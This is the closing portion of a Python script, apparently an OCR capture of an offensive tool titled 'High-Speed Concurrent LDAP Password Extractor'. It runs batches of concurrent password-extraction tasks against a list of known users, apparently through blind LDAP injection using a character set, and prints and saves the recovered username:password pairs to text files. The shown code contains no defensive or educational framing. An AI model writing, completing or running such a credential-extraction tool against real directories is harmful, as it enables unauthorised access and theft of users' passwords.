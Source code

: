 ```python
                # Save immediately
                with open("extracted_passwords.txt", "a") as f:
                    f.write(f"{username}:{result}\n")
            await asyncio.sleep(USER_DELAY)
            return username, result
        
        # Process users in concurrent batches
        all_results = []
        for i in range(0, len(usernames), CONCURRENT_USER_TESTS):
            batch = usernames[i:i+CONCURRENT_USER_TESTS]
            print(f"\n[*] Processing batch {i//CONCURRENT_USER_TESTS + 1}: {', '.join(batch)}")
            
            tasks = [extract_user_wrapper(user) for user in batch]
            batch_results = await asyncio.gather(*tasks)
            all_results.extend(batch_results)
            
            # Show progress
            found = len(self.extracted_passwords)
            print(f"\n[+] Progress: {found}/{len(usernames)} passwords found")
        
        return all_results

async def main():
    extractor = HighSpeedLDAPExtractor()
    
    print("=" * 60)
    print("HIGH-SPEED CONCURRENT LDAP PASSWORD EXTRACTOR")
    print("=" * 60)
    print(f"[*] Concurrent char tests: {CONCURRENT_CHAR_TESTS}")
    print(f"[*] Concurrent user tests: {CONCURRENT_USER_TESTS}")
    print(f"[*] Global request limit: {MAX_SEMAPHORE}")
    print(f"[*] Charset size: {len(OPTIMIZED_CHARSET)}")
    print(f"[*] Target users: {len(KNOWN_USERS)}")
    print("=" * 60)
    
    try:
        await extractor.extract_multiple_users(KNOWN_USERS)
        
        elapsed = time.time() - extractor.start_time
        
        print("\n" + "=" * 60)
        print("EXTRACTION COMPLETE")
        print("=" * 60)
        print(f"[+] Time elapsed: {elapsed:.2f} seconds")
        print(f"[+] Total requests: {extractor.request_count}")
        print(f"[+] Requests/sec: {extractor.request_count/elapsed:.2f}")
        print(f"[+] Passwords found: {len(extractor.extracted_passwords)}")
        
        if extractor.extracted_passwords:
            print("\n[+] EXTRACTED CREDENTIALS:")
            for user, pwd in sorted(extractor.extracted_passwords.items()):
                print(f"    {user}:{pwd}")
            
            # Save final
            with open("final_passwords.txt", "w") as f:
                for user, pwd in sorted(extractor.extracted_passwords.items()):
                    f.write(f"{user}:{pwd}\n")
            print(f"\n[+] Saved to final_passwords.txt")
        else:
            print("[-] No passwords extracted")
            
    except KeyboardInterrupt:
        print("\n[!] Interrupted")
```